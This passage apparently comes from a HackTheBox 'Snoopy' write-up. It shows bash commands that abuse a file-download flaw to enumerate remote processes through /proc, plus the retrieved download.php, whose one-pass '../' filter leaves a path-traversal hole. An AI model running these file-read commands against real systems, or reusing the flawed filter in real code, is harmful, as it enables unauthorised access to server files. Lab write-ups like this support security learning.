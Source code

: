 
## enumerating processes


IPPSec's technique to get a list of processes running on the remote box:

```bash
joshua@kaligra:~/Documents/htb/machines/Snoopy$ for i in $(seq 1 100); do python3 ./download.py /proc/$i/cmdline; done
/sbin/init
```

we can also download `download.php` itself!

```bash
$ python3 ./download.py /proc/self/cwd/download.php > download.php
```

```php
$ cat download.php
<?php

$file = $_GET['file'];
$dir = 'press_package/';
$archive = tempnam(sys_get_temp_dir(), 'archive');
$zip = new ZipArchive();
$zip->open($archive, ZipArchive::CREATE);

if (isset($file)) {
        $content = preg_replace('/\.\.\//', '', $file);
        $filecontent = $dir . $content;
        if (file_exists($filecontent)) {
            if ($filecontent !== '.' && $filecontent !== '..') {
                $content = preg_replace('/\.\.\//', '', $filecontent);
                $zip->addFile($filecontent, $content);
            }
        }
} else {
        $files = scandir($dir);
        foreach ($files as $file) {
                if ($file !== '.' && $file !== '..') {
                        $zip->addFile($dir . '/' . $file, $file);
                }
        }
}

$zip->close();
header('Content-Type: application/zip');
header("Content-Disposition: attachment; filename=press_release.zip");
header('Content-Length: ' . filesize($archive));

readfile($archive);
unlink($archive);
?>

```
